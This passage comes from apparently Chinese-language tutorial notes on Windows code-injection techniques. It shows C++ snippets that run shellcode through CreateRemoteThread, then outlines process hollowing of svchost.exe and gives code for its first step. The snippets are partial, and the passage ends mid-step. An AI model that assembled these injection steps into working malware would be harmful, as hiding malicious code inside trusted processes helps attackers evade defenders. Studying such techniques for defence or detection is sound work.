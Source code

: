 - 步骤 4: 创建远程线程执行 Shellcode (CreateRemoteThread)
    
    一旦 Shellcode 被写入目标进程的内存，就可以使用 CreateRemoteThread API 在目标进程中创建一个新线程，该线程的起始执行地址指向 Shellcode 所在的内存位置。
    
    C++
    
    ```
    // HANDLE remoteThread;
    remoteThread = CreateRemoteThread(
        processHandle,          // 目标进程句柄
        NULL,                   // 默认线程安全属性
        0,                      // 默认栈大小 (通常由可执行文件指定)
        (LPTHREAD_START_ROUTINE)remoteBuffer, // 线程起始执行地址 (指向 Shellcode)
        NULL,                   // 传递给线程函数的参数 (对于简单 Shellcode 通常为 NULL)
        0,                      // 线程创建后立即运行
        NULL                    // (可选) 指向接收线程ID的变量的指针，设为 NULL 则忽略
    );
    // if (remoteThread == NULL) { /* 错误处理 */ }
    // else { CloseHandle(remoteThread); }
    // CloseHandle(processHandle);
    ```
    

##### 4. 扩展进程滥用：进程镂空 (Advanced Process Abuse: Process Hollowing)

进程镂空 (Process Hollowing) 是一种更高级的注入技术，它允许将整个恶意可执行文件（PE 镜像）注入到另一个合法进程中。这通过创建一个挂起的合法进程，然后“镂空”其内存（即解除映射其原始代码），再将恶意的 PE 数据和节区注入到其地址空间来实现。

从高层次来看，进程镂空可分为六个主要步骤：

1. **创建挂起的目标进程**: 以挂起状态 (`CREATE_SUSPENDED`) 创建一个合法的目标进程。
2. **打开并读取恶意 PE 镜像**: 打开包含恶意代码的 PE 文件，并将其完整内容读入当前进程的内存。
3. **镂空目标进程内存**: 从目标进程的内存中卸载（解除映射）其合法的代码。
4. **为恶意代码分配内存**: 在目标进程的地址空间中（通常在其原始基址处）为恶意 PE 镜像分配新的内存。
5. **写入恶意 PE 镜像**: 将恶意 PE 镜像的头部和各个节区写入到目标进程新分配的内存中。
6. **设置线程上下文并恢复执行**: 修改目标进程主线程的上下文，使其指令指针指向恶意代码的入口点，然后恢复目标进程的执行。

**API 调用步骤详解**:

- 步骤 1: 创建挂起的目标进程 (CreateProcessA)
    
    使用 CreateProcessA (或 CreateProcessW) 创建目标进程，并指定 CREATE_SUSPENDED 标志。STARTUPINFOA 和 PROCESS_INFORMATION 结构用于传递和接收进程创建信息。
    
    C++
    
    ```
    LPSTARTUPINFOA target_si = new STARTUPINFOA();
    LPPROCESS_INFORMATION target_pi = new PROCESS_INFORMATION();
    // CONTEXT c; // 后续会用到
    
    if (CreateProcessA(
        (LPSTR)"C:\\Windows\\System32\\svchost.exe", // 要执行的合法模块名称 (例如 svchost.exe)
        NULL,                   // 命令行参数
        NULL,                   // 进程安全属性
        NULL,                   // 线程安全属性
        TRUE,                   // 句柄是否被继承 (通常设为 FALSE，除非确实需要)
        CREATE_SUSPENDED,       // 关键标志：创建后进程处于挂起状态
        NULL,                   // 环境块
        NULL,                   // 当前目录
        target_si,              // 指向 STARTUPINFO 结构的指针
        target_pi               // 指向 PROCESS_INFORMATION 结构的指针 (接收进程和主线程句柄/ID)
    ) == 0) {
        // cout << "[!] Failed to create Target process. Last Error: " << GetLastError();
        // return 1;
    }
    ```
    